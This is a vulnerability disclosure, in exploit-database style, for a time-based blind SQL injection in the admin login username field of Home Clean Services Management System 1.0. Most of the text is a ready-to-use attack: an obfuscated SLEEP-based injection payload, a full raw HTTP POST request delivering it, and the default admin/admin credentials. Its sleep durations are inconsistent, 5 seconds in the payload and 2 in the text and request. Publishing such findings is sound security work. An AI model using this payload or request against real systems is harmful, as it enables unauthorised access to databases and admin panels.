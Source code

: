 # Home Clean Services Management System admin/login.php username SQL inject

   
#### Exploit Title: Home Clean Services Management System admin/login.php username SQL inject
#### Exploit Author: webraybtl@webray.com.cn inc
#### Vendor Homepage: https://www.sourcecodester.com/php/15293/home-clean-service-free-source-code.html
#### Software Link: https://www.sourcecodester.com/download-code?nid=15293&title=Home+Clean+Service+System+in+PHP+Free+Source+Code
#### Version: Home Clean Services Management System 1.0
#### Tested on: Windows Server 2008 R2 Enterprise, Apache ,Mysql

#### Description
The reason for the SQL injection vulnerability is that the website application does not verify the validity of the data submitted by the user to the server (type, length, business parameter validity, etc.), and does not effectively filter the data input by the user with special characters , so that the user's input is directly brought into the database for execution, which exceeds the expected result of the original design of the SQL statement, resulting in a SQL injection vulnerability.Home Clean Services Management System does not filter the content correctly at the "Admin/login.php" username module, resulting in the generation of SQL injection.

#### Payload used:
`admin%'/**/AND/**/(SELECT/**/5383/**/FROM/**/(SELECT(SLEEP(5)))JPeh)/**/AND/**/'frfq%'='frfq`

#### Proof of Concept

1. Login the CMS. 
Admin Default Access:
Email: admin
Password: admin

1. Open Page http://172.24.5.102/HCS/public_html/admin/

2. Put SQL injection payload  (`admin%'/**/AND/**/(SELECT/**/5383/**/FROM/**/(SELECT(SLEEP(5)))JPeh)/**/AND/**/'frfq%'='frfq`) in the username content and click on Login to publish the page,Viewing the successfully sleep 2 seconds.
![image](https://user-images.githubusercontent.com/60683449/169929892-e213823f-6540-43c2-bb21-ba68efcc77ad.png)


3. code
```POST /HCS/public_html/admin/login.php HTTP/1.1
Host: 172.24.5.102
Pragma: no-cache
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
X-Proxyman-Repeated-ID: 9923641D
Content-Type: application/x-www-form-urlencoded
Accept-Language: zh-CN,zh;q=0.9
Accept-Encoding: gzip, deflate
Cache-Control: max-age=0
Origin: http://172.24.5.102
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/62.0.3202.9 Safari/537.36
Referer: http://172.24.5.102/HCS/public_html/admin/index.php
Upgrade-Insecure-Requests: 1
Content-Length: 124
Connection: close
Cookie: PHPSESSID=fjbdak9heg1r2divhtlpubv986

username=admin%'/**/AND/**/(SELECT/**/5383/**/FROM/**/(SELECT(SLEEP(2)))JPeh)/**/AND/**/'frfq%'='frfq&password=123456&login=
```

